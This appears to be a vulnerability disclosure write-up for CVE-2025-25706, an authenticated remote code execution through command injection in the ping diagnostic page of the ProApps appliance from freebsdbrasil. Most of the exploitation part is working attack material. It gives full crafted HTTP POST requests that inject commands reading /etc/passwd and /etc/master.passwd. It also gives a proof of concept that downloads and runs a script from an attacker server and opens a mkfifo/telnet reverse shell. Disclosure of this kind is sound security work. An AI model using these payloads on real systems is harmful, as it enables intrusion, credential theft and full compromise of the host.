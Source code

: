 # CVE-2025-25706
# Description Item:
```
Product Vendor: freebsdbrasil
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Remote Code Execution

## Description Vulnerability:
The vulnerability occurs because a user can inject system commands through the application using the ping functionality by adding a sequence command operator in Unix environments, such as (;, &&, or |).
To exploit the vulnerability it's necessary to be authenticated. The user must belong to a permission group called 'Status' and have 'Modified' Permission.
It is also important to mention that successful exploitation requires bypassing input sanitization. The application validates user input only on the front end, making it necessary to send the request through a network proxy, for example. In this way the limitations imposed by the application to be bypassed."

## Exploitation:
After authentication, it will be necessary to access a page called `sta_rede.diagnostico_ping` (http(s)://vulnerablepage.index.php?page=sta_rede.diagnostico_ping&task=view).
This page provides a function to perform an ICMP request to an arbitrary host. To learn more about the ping utility and the ICMP protocol (Request and Reply), please refer to the RFC mentioned in the references section.

The application sends a POST request with the parameters host, testar_pacote, and ttl, where `host` is the target of the ping, `testar_pacote` specifies the number of ICMP requests to send, and `TTL` is time to Live (TTL) for the packets. Upon send the request the application executes the following command on the Unix system: `ping -c $testar_pacote $host`. Below is the `POST` request demonstrating the functionality:

```
POST /include/sta/rede.diagnostico_ping.ajax.php HTTP/1.1
Host: vulnerablewebsite.com
Cookie: PHPSESSID=6457d273b50b3bbaea19cbb4500d6577
Content-Length: 66
Authorization: XXXXXXX
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded
Origin: https://vulnerablewebsite.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://vulnerablewebsite.com/index.php?page=sta_rede.diagnostico_ping&task=view
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

page=sta_rede.diagnostico_ping&host=8.8.8.8&testar_pacote=1&ttl=64

```

This is where an attack vector is noticed. A user can exploit the vulnerability by sending a malicious POST request through a network proxy to bypass input sanitization by appending one of the sequence command operators (;, &&, or |) to the `host` parameter, the web application will execute the ping command mentioned above, followed by an additional command. For example, this could include reading sensitive files like `/etc/passwd`, `/etc/master.passwd` or get a reverse shell or execute arbitrary commands.

The POST request below is a crafted and malicious example:

```
POST /include/sta/rede.diagnostico_ping.ajax.php HTTP/1.1
Host: vulnerablewebsite.com
Cookie: PHPSESSID=6457d273b50b3bbaea19cbb4500d6577
Content-Length: 66
Authorization: XXXXXXX
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded
Origin: https://vulnerablewebsite.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://vulnerablewebsite.com/index.php?page=sta_rede.diagnostico_ping&task=view
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

page=sta_rede.diagnostico_ping&host=8.8.8.8; cat /etc/passwd;cat /etc/master.passwd&testar_pacote=1&ttl=64
```

## Reverse Shell POC:
HTTP POST Request to `sta_rede.diagnostico_ping`:
`page=sta_rede.diagnostico_ping&host=x.x.x.x;curl -O http://attackserver/maliciousfile.sh; chmod +x maliciousfile.sh; ./maliciousfile.sh&testar_pacote=1&ttl=64`

### Maicious file content:
TF=$(mktemp -u);mkfifo $TF && telnet $attacker.ip $attacker.port 0<$TF | sh 1>$TF

By listening on the specified port with Netcat, a reverse shell is successfully opened.

## Impact Vulnerability:
RCE (Remote Code Execution) vulnerabilities allow an attacker to execute arbitrary code on a remote device, it can lead in a Full System Compromise, Data Breach, Lateral Movement, Malware Deployment and Reputational and Financial Damage.

### References:
- https://www.rfc-editor.org/rfc/rfc777
- https://www.checkpoint.com/cyber-hub/cyber-security/what-is-remote-code-execution-rce/
